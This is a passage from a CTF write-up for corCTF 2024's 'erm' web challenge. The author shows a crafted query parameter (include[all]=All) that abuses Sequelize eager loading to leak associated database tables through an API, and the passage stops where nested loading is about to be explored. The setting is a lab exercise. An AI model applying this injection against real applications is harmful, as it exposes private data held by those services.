 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729210756.png)

Huh? "An error occurred"?

Erm... Let's build this web application's Docker image and run the container:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:08:52(HKT)]
└> docker build --tag erm:latest .     
[...]
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/erm/erm)-[2024.07.29|21:08:58(HKT)]
└> docker run -p 80:5000 erm:latest     
web/erm listening on port 5000
seeding db with default data...
```

By sending the same request again but on our local environment, we can see this error:

```shell
EagerLoadingError [SequelizeEagerLoadingError]: include all 'true' is not valid - must be BelongsTo, HasOne, HasMany, One, Has, Many or All
    at Writeup._expandIncludeAllElement (/app/node_modules/sequelize/lib/model.js:348:17)
    at Writeup._expandIncludeAll (/app/node_modules/sequelize/lib/model.js:594:14)
    at Writeup.findAll (/app/node_modules/sequelize/lib/model.js:1117:10)
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
    at async /app/app.js:31:27
```

So, for some reasons, the `true` value should be `All`.

**Now, send the following request again. Table `Writeup`'s associations should be returned:**
```http
GET /api/writeups?include[all]=All HTTP/1.1
Host: localhost


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729211339.png)

Nice! Table `Member` is returned!

Now, how can we nested include all the associations between all the tables?

Sadly, during the CTF, I couldn't figure it out.

## Exploitation

So, after the CTF ended, I found out that we can do [**nested eager loading** based on this documentation](https://sequelize.org/docs/v6/advanced-association-concepts/eager-loading/#nested-eager-loading):

```javascript
const users = await User.findAll({
  include: {
    model: Tool,
    as: 'Instruments',
    include: {
      model: Teacher,
      include: [
        /* etc */
      ],
    },
  },
});
console.log(JSON.stringify(users, null, 2));
```
